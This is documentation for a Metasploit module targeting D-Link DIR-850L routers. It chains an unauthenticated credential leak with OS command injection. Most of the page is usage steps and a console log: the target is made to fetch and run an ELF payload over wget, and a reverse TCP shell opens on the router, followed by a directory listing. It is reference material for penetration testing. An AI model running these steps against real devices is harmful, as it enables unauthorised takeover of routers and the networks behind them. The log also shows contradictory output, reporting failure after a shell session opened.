 The module dlink_dir850_(un)auth_exec leverages an unauthenticated credential disclosure vulneralbility to then execute arbitrary commands via an authenticated OS command injection
vulneralbility. D-LINK 850L (excluding "Cloud" models) devices with firmware version up to 1.14B07
are potentially vulnerable. The vulneralbility seems to occur within the parsing of the config. Another PoC can be found here https://www.seebug.org/vuldb/ssvid-96333. Setting command to be `reboot` will force the router into an infinite loop.

## Vulnerable Application


  1. Start msfconsole
  2. Do : `use exploit/linux/http/dlink_dir850l_unauth_exec.rb`
  3. Do : `set RHOST [RouterIP]`
  4. Do : `set PAYLOAD linux/mipsle/shell/reverse_tcp`
  5. Do : `run`
  6. If router is vulnerable, payload should be dropped via wget and executed, and therein should obtain an session


## Example

```
msf > use exploit/linux/http/dlink_dir850l_unauth_exec
msf exploit(dlink_850l_unauthenticated_exec) > set RHOST 192.168.0.14
RHOST => 192.168.0.14
msf exploit(dlink_850l_unauthenticated_exec) > set RPORT 80
RPORT => 80
msf exploit(dlink_850l_unauthenticated_exec) > set LHOST ens3
LHOST => ens3
msf exploit(dlink_850l_unauthenticated_exec) > set LPORT 1351
LPORT => 1351
msf exploit(dlink_850l_unauthenticated_exec) > run
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on 192.168.0.11:1351
msf exploit(dlink_850l_unauthenticated_exec) > [*] 192.168.0.14:80 - Starting up web service http://192.168.0.11:80/kiRtmoNlSNHUnxO
[*] Using URL: http://0.0.0.0:80/kiRtmoNlSNHUnxO
[*] Local IP: http://192.168.0.11:80/kiRtmoNlSNHUnxO
[*] 192.168.0.14:80 - Asking target to request to download http://192.168.0.11:80/kiRtmoNlSNHUnxO
[*] 192.168.0.14:80 - Waiting for target to request the ELF payload...
[*] 192.168.0.14:80 - Sending payload to the server...
[*] 192.168.0.14:80 - Requesting device to chmod kiRtmoNlSNHUnxO
[*] 192.168.0.14:80 - Requesting device to execute kiRtmoNlSNHUnxO
[*] 192.168.0.14:80 - Waiting for shell to connect back to us...
[*] Sending stage (84 bytes) to 192.168.0.14
[*] Command shell session 1 opened (192.168.0.11:1351 -> 192.168.0.14:48679) at 2017-11-03 09:05:13 -0400
[+] Deleted /tmp/dhufstzw
sessions -i 1
[*] Starting interaction with 1...

3353690789
yBvPAaTjxEjNJrrzHHdFNXGNWNywfECC
true
MhhOHvSRnLmxcFwdTiIdZFcHzGRAIhlA
mMzxldJdkNYWlIrHrOazzOcpCRTuRipt
OayNFBMDfTSaJIFwpNPoWErXCvLmIguK
[-] Exploit aborted due to failure: unknown: 192.168.0.14:80 - Shell never connected to us!, disconnect?
[*] Server stopped.
pwd
/
ls
www
var
usr
tmp
sys
sbin
proc
mydlink
mnt
lib
include
htdocs
home
etc
dev
bin

```
